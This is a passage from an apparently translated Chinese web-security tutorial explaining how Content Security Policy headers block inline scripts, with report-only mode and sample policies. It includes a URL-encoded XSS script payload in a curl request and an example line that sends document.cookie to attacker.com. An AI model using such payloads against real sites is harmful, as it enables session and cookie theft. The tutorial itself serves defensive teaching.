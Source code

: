 ![qBt18fLr3rU0wQJtlXU5jUf1OslyIGzYcowX](img/d8400793917b70836e17b0ca488be436.png)

正如您在上面的示例中看到的，我们已经告诉浏览器，我们的 CSP 策略只允许来自当前 URL 的相同来源的脚本，我们可以通过卷曲 URL 并查看响应标头来轻松验证这一点:

```
$ curl -I "http://localhost:7888/?search=%3Cscript+type%3D%22text%2Fjavascript%22%3Ealert%28%27You%20have%20been%20PWNED%27%29%3C%2Fscript%3E&csp=on"
```

```
HTTP/1.1 200 OKX-XSS-Protection: 0Content-Security-Policy: default-src 'self'Date: Sat, 11 Aug 2018 10:46:27 GMTConnection: keep-alive
```

由于 XSS 的攻击是通过一个*内嵌脚本*(一个直接嵌入在 HTML 内容中的脚本)进行的，浏览器礼貌地拒绝执行它，保护了我们用户的安全。想象一下，如果攻击者不是简单地显示一个警告对话框，而是设置一个重定向到自己的域，通过一些类似如下的 JavaScript 代码:

```
window.location = `attacker.com/${document.cookie}`
```

他们将能够窃取用户的所有 cookiess，这些 cookie 可能包含高度敏感的数据(下一篇文章将详细介绍)。

现在，应该清楚 CSP 如何帮助我们防止对 web 应用程序的一系列攻击。您定义了一个策略，浏览器将严格遵守它，拒绝运行违反策略的资源。

CSP 的一个有趣变化是*只报告*模式。不使用`Content-Security-Policy`头，您可以首先测试 CSP 对您的网站的影响，通过使用`Content-Security-Policy-Report-Only`头告诉浏览器简单地报告错误，而不阻止脚本执行等等。

报告将让您了解您想要推出的 CSP 策略可能会导致哪些突破性变化，并相应地修复它们。我们甚至可以指定一个报告 URL，浏览器会给我们发送一个报告。以下是仅报告策略的完整示例:

```
Content-Security-Policy: default-src 'self'; report-uri http://cspviolations.example.com/collector
```

CSP 策略本身可能有点复杂，如下例所示:

```
Content-Security-Policy: default-src 'self'; script-src scripts.example.com; img-src *; media-src medias.example.com medias.legacy.example.com
```

该策略定义了以下规则:

*   可执行脚本(如 JavaScript)只能从`scripts.example.com`加载
*   图像可以从任何原点(`img-src: *`)加载
*   视频或音频内容可以从两个来源加载:`medias.example.com`和`medias.legacy.example.com`
